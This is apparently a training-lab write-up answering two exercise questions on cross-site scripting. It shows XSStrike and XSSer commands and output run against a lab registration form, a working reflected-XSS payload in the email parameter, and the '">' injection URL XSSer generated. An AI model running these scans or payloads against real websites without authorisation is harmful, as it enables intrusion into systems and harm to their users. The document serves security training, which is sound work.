


## Exercises

### Question 1 — Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?

Target accessed at `154.57.164.71:34333`, a User Registration form with Full Name, Username, Password, and E-Mail fields.



Submitted test values into all fields and clicked Register:



The resulting request showed all four field values sent as GET parameters:

```
GET /?fullname=test&username=test&password=test&email=test%40test.com HTTP/1.1
Host: 154.57.164.71:34333
```

Ran XSStrike against the full parameterised URL:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ xsstrike -u 'http://154.57.164.71:34333/?fullname=test&username=test&password=test&email=test%40test.com'

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: fullname 
[-] No reflection found 
[!] Testing parameter: username 
[-] No reflection found 
[!] Testing parameter: password 
[-] No reflection found 
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <Html%09onMOuSeOvER%0d=%0dconfirm()%0dx> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] 
```

**Breakdown:**

- `xsstrike` is the installed tool, invoked directly via its symlink
- `-u 'http://154.57.164.71:34333/?fullname=test&username=test&password=test&email=test%40test.com'` passes the full target URL with all four parameters, so the tool tests each one in turn

Of the four parameters, only `email` showed a reflection, and XSStrike generated a working payload for it with 100% efficiency.

Cross-checked with XSSer:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ xsser -u 'http://154.57.164.71:34333/' -g '?fullname=XSS&username=XSS&password=XSS&email=XSS'

===========================================================================

XSSer v1.8[4]: "The HiV€!" - (https://xsser.03c8.net) - 2010/2021 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2026-10-27 18:08:23.032583
===========================================================================

[+] Target: 

 [ http://154.57.164.71:34333/ ]

---------------------------------------------

[!] Hashing: 

 [ 1a2f0c45863ffa6d49b7d630fcb83e6b ] : [ fullname ]
 [ 3ed63456d148f2421e6dbc2194d47b0f ] : [ username ]
 [ 97714a6cf0d5440a336150865e95e86d ] : [ password ]
 [ 3b9baae0b5f5049fc82228d7d57d2428 ] : [ email ]

---------------------------------------------

[*] Trying: 

http://154.57.164.71:34333/?fullname=%22%3E1a2f0c45863ffa6d49b7d630fcb83e6b&username=%22%3E3ed63456d148f2421e6dbc2194d47b0f&password=%22%3E97714a6cf0d5440a336150865e95e86d&email=%22%3E3b9baae0b5f5049fc82228d7d57d2428

---------------------------------------------

[+] Vulnerable(s): 

 [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]

---------------------------------------------

=============================================
[*] Injection(s) Results:
=============================================

 [NOT FOUND] -> [ 1a2f0c45863ffa6d49b7d630fcb83e6b ] : [ fullname ]
 [NOT FOUND] -> [ 3ed63456d148f2421e6dbc2194d47b0f ] : [ username ]
 [NOT FOUND] -> [ 97714a6cf0d5440a336150865e95e86d ] : [ password ]
 [FOUND !!!] -> [ 3b9baae0b5f5049fc82228d7d57d2428 ] : [ email ]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 4
- Failed: 3
- Successful: 1
- Accur: 25.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://154.57.164.71:34333/ | ?fullname=XSS&username=XSS&password=XSS&email=XSS
[+] Vector: [ email ]
[!] Method: URL
[*] Hash: 3b9baae0b5f5049fc82228d7d57d2428
[*] Payload: http://154.57.164.71:34333/?fullname=%22%3E1a2f0c45863ffa6d49b7d630fcb83e6b&username=%22%3E3ed63456d148f2421e6dbc2194d47b0f&password=%22%3E97714a6cf0d5440a336150865e95e86d&email=%22%3E3b9baae0b5f5049fc82228d7d57d2428
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 
```

**Breakdown:**

- `xsser` is the tool, installed via `apt`
- `-u 'http://154.57.164.71:34333/'` sets the base target URL
- `-g '?fullname=XSS&username=XSS&password=XSS&email=XSS'` passes the GET parameters to test, each given the placeholder value `XSS`, which XSSer replaces per-parameter with a unique hash and an injection payload to track which one reflects

XSSer hashed each parameter's value individually, injected `">` plus the hash into each, and checked whether that hash came back unescaped in the response. Only the `email` parameter's hash came back in the response, confirming the same parameter XSStrike flagged.

**Answer:** `email`

### Question 2 — What type of XSS was found on the above server? "name only"

Both tools' payloads were delivered as GET parameters in the request URL and confirmed against the server's actual HTTP response, rather than against any client-side-only behaviour. The vulnerable value travelled to the back-end server and came straight back reflected in the page, with nothing stored for later visitors.

**Answer:** `reflected`